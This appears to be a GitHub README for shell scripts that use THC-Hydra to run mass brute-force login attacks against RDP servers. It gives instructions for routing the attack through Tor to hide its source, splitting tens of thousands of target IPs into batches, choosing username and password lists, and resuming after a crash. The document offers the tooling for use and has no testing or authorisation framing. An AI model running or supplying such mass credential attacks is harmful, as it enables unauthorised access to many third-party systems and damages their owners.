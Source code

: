 # RDP Mass Attack & Monitor

#### As you know THC-Hydra is not very happy with massive lists when attacking RDP. It either errors out completely or provides false negatives.

![monitor sh](https://user-images.githubusercontent.com/100805450/156768359-9081427b-199a-40ed-a69e-31495a633878.png)

------------

### Prerequisites:
1. Tor services are required, remove code in `attack.sh` below to not use proxies.
```bash
  HYDRA_PROXY=socks5://l:p@127.0.0.1:9050
  export HYDRA_PROXY
  printenv | grep HYDRA
  sleep 5
```
2. Create folders for IP source lists and used IP source lists:
```bash
mkdir data/ data-tested/
```
3. Have the IP list split into many files with 4-5 IP addresses each.
Example: 50,000 IP List should become 10,000 files with 5 IPs each.
```bash
# make sure you are inside source folder when running this command
split ip-list.txt -l 5
```
4. If you want to use username list instead one username or you want to use one password, edit `attack.sh` accordingly:
```bash
hydra -L usernames.lst -P "$password"
```
```bash
hydra -l admin -p password
```
```bash
hydra -L usernames.lst -P "$password"
```
------------

### Usage:

```bash
chmod +x attack.sh
```
```bash
./attack.sh <ip-list-location> <dictionary-location>
# example:
./attack.sh data wordlist/dict.txt
# ^ will use every file in /home/<your user>/data/ folder as IP list and attack it with /home/<your user>/wordlist/dict.txt wordlist
```
Script moves the used list file to "data-tested" folder and takes the next one from supplied folder. Did this for easier resume on crash or on stop.

------------

### Monitor.sh Usage:
```bash
chmod +x monitor.sh
watch -n 5 --color ./monitor.sh
```
